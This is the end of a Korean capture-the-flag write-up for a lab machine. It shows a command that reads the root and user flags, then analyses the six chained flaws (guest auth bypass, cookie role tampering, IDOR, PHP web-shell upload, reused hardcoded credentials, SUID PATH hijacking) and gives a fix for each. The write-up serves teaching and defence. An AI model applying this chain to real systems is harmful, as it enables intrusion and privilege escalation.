

`#` 프롬프트가 나타나며 root 쉘 획득에 성공했다.

---

### 14. Flag 획득

```bash
echo -n "root: "; tr -d '\n' < /root/root.txt; echo
echo -n "user: "; tr -d '\n' < /home/robert/user.txt; echo
```





---

## 취약점 원인 분석

이 머신은 여섯 가지 취약점이 연쇄적으로 연결된 구조다.

**1단계 - 인증 우회**
`?guest=true` 쿼리 파라미터 하나만으로 Guest 세션을 부여하는 구조다. 서버가 파라미터 값을 신뢰하고 인증 절차를 생략했다. 인증은 서버 측에서 세션 토큰의 유효성을 검증하는 방식으로 구현되어야 한다.

**2단계 - Broken Access Control (Cookie Tampering)**
권한 정보(`role`, `user`)를 HttpOnly 속성 없이 쿠키에 평문으로 저장하고, 서버가 이 값을 검증 없이 신뢰했다. 권한 정보는 서버 측 세션에서 관리해야 하며, 클라이언트가 조작할 수 없는 구조로 설계해야 한다.

**3단계 - IDOR**
계정 정보 조회 시 현재 로그인한 사용자가 해당 id의 정보를 열람할 권한이 있는지 검증하지 않았다. 모든 데이터 접근 요청에 서버 측 권한 검증이 반드시 수반되어야 한다.

**4단계 - 파일 업로드 취약점**
업로드 기능이 파일 확장자와 MIME 타입을 검증하지 않아 PHP 파일 업로드가 가능했다. 서버 측에서 허용 확장자를 화이트리스트로 제한하고, 업로드 디렉토리에서 PHP 실행을 비활성화해야 한다.

**5단계 - 크리덴셜 하드코딩 및 재사용**
DB 연결 크리덴셜이 소스 파일에 평문으로 하드코딩되어 있었고, 동일한 크리덴셜이 시스템 계정에도 재사용되었다. 크리덴셜은 환경변수나 별도의 시크릿 관리 도구로 관리해야 하며, 서비스별로 독립된 계정과 패스워드를 사용해야 한다.

**6단계 - SUID + PATH Hijacking**
SUID가 설정된 바이너리가 `cat`을 절대 경로 없이 호출했다. SUID 바이너리는 내부에서 호출하는 모든 명령을 절대 경로로 지정해야 하며, SUID 설정 자체도 꼭 필요한 경우에만 적용해야 한다.

---

## 실제 환경에서의 위험성

이 머신의 공격 흐름에서 가장 현실적인 위협은 크리덴셜 하드코딩과 재사용이다. 소스코드 저장소에 실수로 커밋된 DB 패스워드가 내부망 전체의 침투 경로가 되는 사례는 실제 침해 사고에서 반복적으로 등장한다. 특히 개발 환경과 운영 환경의 크리덴셜을 동일하게 사용하거나, DB 계정 패스워드를 SSH 계정에도 그대로 쓰는 경우 하나의 노출로 다수의 서비스가 연쇄적으로 침해된다.

쿠키 기반 권한 제어 역시 실제 환경에서 자주 발견되는 취약점이다. 권한 정보를 클라이언트가 직접 읽고 수정할 수 있는 쿠키에 저장하면 개발자가 의도하지 않은 기능 접근이 가능해지며, 이를 통한 피해는 개인 정보 노출부터 관리자 기능 남용까지 다양하게 나타난다.

---

## 핵심 정리

| 항목 | 내용 |
|------|------|
| 초기 접근 경로 | Guest 로그인 파라미터 인증 우회 |
| 권한 탈취 방법 | 쿠키 조작 (role=guest→admin) + IDOR로 admin Access ID 획득 |
| RCE 방법 | 확장자 미검증 파일 업로드 → PHP 웹쉘 실행 |
| 크리덴셜 획득 | db.php 하드코딩 크리덴셜 → SSH 재사용 |
| 권한 상승 방법 | SUID 바이너리 + 상대경로 호출 → PATH 하이재킹 |
| 핵심 교훈 | 서버 측 권한 검증, 크리덴셜 분리 관리, SUID 최소화, 절대 경로 사용 |
